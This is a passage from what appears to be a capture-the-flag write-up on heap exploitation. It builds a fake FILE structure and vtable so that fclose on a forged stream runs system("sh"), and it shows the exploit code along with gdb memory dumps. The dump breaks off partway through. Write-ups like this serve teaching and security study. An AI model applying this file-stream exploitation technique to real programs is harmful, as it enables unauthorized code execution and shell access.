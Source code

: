 Now that we've got system's address, let's craft the fake FILE vtable in the bss.

```python
edit(p32(system) + p32(0)*3)
```

The `fclose` vtable pointer is at the 18th index. Because the bss buffer isn't big enough to contain the entire vtable, the 
vtable pointer I crafted on the fake file stream chunk will point to `vtable - 17*4`. 

```
gdb-peda$ x/4wx 0x804a0c0
0x804a0c0 <name>:	0xf7e4bda0	0x00000000	0x00000000	0x00000000
```

All that is left now is to free `0x804b300` and request it back but this time enter the fake file stream as input.

```python
# Free chunk and re-allocate it again to craft the fake FILE structure
free(3)

stream  = 'sh\x00\x00'
stream += p32(0)*12
# Needs to point ot null
stream += p32(0x804a0f0)
stream += p32(3)
stream += p32(0)*3
# Needs to point to null
stream += p32(0x804a0f0)
stream += p32(0xffffffff)*2
stream += p32(0)
# Needs to point to null
stream += p32(0x804a0f0)
stream += p32(0)*14
stream += p32(vtable)

craft(0xa8, 3, stream)
# fclose(fp) => system(fp) => system("sh")
Close()
```

```
gdb-peda$ x/40wx 0x804b2f8
0x804b2f8:	0x00000000	0x000000b1	0x00006873	0x00000000
0x804b308:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b328:	0x00000000	0x00000000	0x00000000	0x0804a0f0
0x804b338:	0x00000003	0x00000000	0x00000000	0x00000000
0x804b348:	0x0804a0f0	0xffffffff	0xffffffff	0x00000000
0x804b358:	0x0804a0f0	0x00000000	0x00000000	0x00000000
0x804b368:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b378:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b388:	0x00000000	0x00000000	0x00000000	0x0804a07c

gdb-peda$ fp 0x804b300
$8 = {
  file = {
    _flags = 0x6873, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
```